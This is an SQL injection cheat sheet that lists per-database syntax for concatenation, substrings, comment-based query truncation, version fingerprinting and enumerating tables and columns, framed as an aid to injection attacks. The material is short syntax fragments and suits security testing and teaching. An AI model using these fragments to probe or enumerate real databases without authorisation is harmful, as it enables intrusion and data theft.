 # SQL Injection Cheatsheet

> This SQL injection cheat sheet contains examples of useful syntax that you can use to perfrom a variety of tasks that often arise when performing SQL injection attacks.

# String Concatenation

> You can concatenate together multiple strings to make a single string.

**Oracle** :: 'foo'||'bar'                                          <br>
**Microsoft** :: 'foo'+'bar'                                        <br>
**PostgreSQL** :: 'foo'||'bar'                                      <br>
**MySQL** :: 'foo' 'bar' [Note the space between the two strings]   <br>
**MySQL** :: CONCAT('foo','bar')                                    <br>

# Substring

> You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string ba.

**Oracle** :: SUBSTR('foobar', 4, 2)        <br>
**Microsoft** :: SUBSTRING('foobar', 4, 2)  <br>
**PostgreSQL** :: SUBSTRING('foobar', 4, 2) <br>
**MySQL** :: SUBSTRING('foobar', 4, 2)      <br>

# Comments

> You can use comments to truncate a query and remove the portion of the original query that follows your input.

**Oracle** :: --comment                                                                         <br>
**Microsoft** :: --comment or /* comment */                                                   <br>
**PostgreSQL** :: --comment or /* comment */                                                  <br>
**MySQL**	:: #comment or -- comment or /***comment***/ [Note the space after the double dash]   <br>

# Database version

> You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

**Oracle**  :: SELECT banner FROM v$version or SELECT version FROM v$instance   <br>
**Microsoft** :: SELECT @@version                                               <br>
**PostgreSQL** :: SELECT version()                                              <br>
**MySQL** :: SELECT @@version                                                   <br>

# Database contents

> You can list the tables that exist in the database, and the columns that those tables contain.

**Oracle** :: SELECT * FROM all_tables or SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'                                <br>
**Microsoft** :: SELECT * FROM information_schema.tables or SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'   <br>
**PostgreSQL** :: SELECT * FROM information_schema.tables or SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'  <br>
**MySQL** :: SELECT * FROM information_schema.tables or SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'       <br>


